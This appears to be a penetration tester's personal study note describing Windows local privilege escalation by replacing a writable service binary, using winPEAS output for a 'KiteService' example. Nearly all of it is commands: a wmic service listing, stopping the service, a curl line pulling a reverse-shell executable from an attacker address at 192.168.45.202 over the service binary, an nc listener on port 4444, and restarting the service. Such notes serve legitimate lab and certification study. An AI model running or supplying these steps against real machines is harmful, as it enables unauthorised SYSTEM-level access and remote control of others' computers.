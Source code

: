 - If [[winPEAS]] tells you that there are services ran by privileged users for which you can swap the called binary and then restart the service.
- WinPEAS returns something like this
  ```
  [...]
  Installed Applications --Via Program Files/Uninstall registry--
  Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software
      C:\Program Files\Common Files
      C:\Program Files\desktop.ini
      C:\Program Files\FreeSWITCH(chris [AllAccess])
      C:\Program Files\Internet Explorer
      C:\Program Files\Kite(chris [WriteData/CreateFiles])
  	[...]
  ```
- Get a list of services along with users who ran them and the pathname of the file executed
  ```cmd
  > wmic service get name,startname,pathname,state
  [...]
  KiteService	C:\program files\Kite\KiteService.exe	LocalSystem	Running
  [...]
  ```
- Stop the service
  ```powershell
  stop-service -name kiteservice
  ```
- Swap the binary with a reverse shell
  ```powershell
  curl "http://192.168.45.202:8000/rev_cmd_4444.exe" -o "C:\program files\Kite\KiteService.exe"
  ```
- Start a listener on Kali on port *4444*
  ```bash
  > rlwrap nc -lnvp 4444
  ```
- Start the service
  ```powershell
  start-service -name kiteservice
  ```